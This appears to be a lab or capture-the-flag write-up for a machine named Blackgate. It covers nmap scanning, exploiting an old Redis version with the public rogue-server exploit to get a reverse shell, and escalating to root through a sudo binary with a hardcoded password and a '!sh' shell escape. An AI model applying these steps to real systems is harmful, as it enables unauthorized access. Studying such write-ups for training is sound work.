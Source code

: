 # Blackgate

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.176
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 23:04 +08
Nmap scan report for 192.168.197.176
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
6379/tcp open  redis
```

Only Redis. We can do a detailed scan for this port.&#x20;

```
$ sudo nmap -p 6379 -sC -sV -O -T4 192.168.197.176                                 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 23:05 +08
Nmap scan report for 192.168.197.176
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.14
```

### Redis RCE

This version of Redis is vulnerable to the Redis Rogue Server exploit:

{% embed url="https://github.com/n0b0dyCN/redis-rogue-server" %}

<figure><img src="../../../.gitbook/assets/image (1019).png" alt=""><figcaption></figcaption></figure>

Getting a reverse shell via a bash one-liner is trivial:

<figure><img src="../../../.gitbook/assets/image (3358).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Redis-Status

We had some `sudo` privileges as this user:

```
prudence@blackgate:/tmp$ sudo -l
Matching Defaults entries for prudence on blackgate:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prudence may run the following commands on blackgate:
    (root) NOPASSWD: /usr/local/bin/redis-status
```

I did some basic enumeration of this binary, such as running `strings`:

```
prudence@blackgate:~$ strings /usr/local/bin/redis-status
/lib64/ld-linux-x86-64.so.2
gets
puts
printf
stderr
system
fwrite
strcmp
__libc_start_main
libc.so.6
GLIBC_2.2.5
__gmon_start__
H=X@@
[]A\A]A^A_
[*] Redis Uptime
Authorization Key: 
ClimbingParrotKickingDonkey321
```

There is a password within it. When we run the binary and supply the password, we get this 'terminal' thing:

<figure><img src="../../../.gitbook/assets/image (877).png" alt=""><figcaption></figcaption></figure>

This output looks a bit like `less`, so I tried to escape this limited shell with `!sh` and it worked.

<figure><img src="../../../.gitbook/assets/image (1757).png" alt=""><figcaption></figcaption></figure>

Rooted!
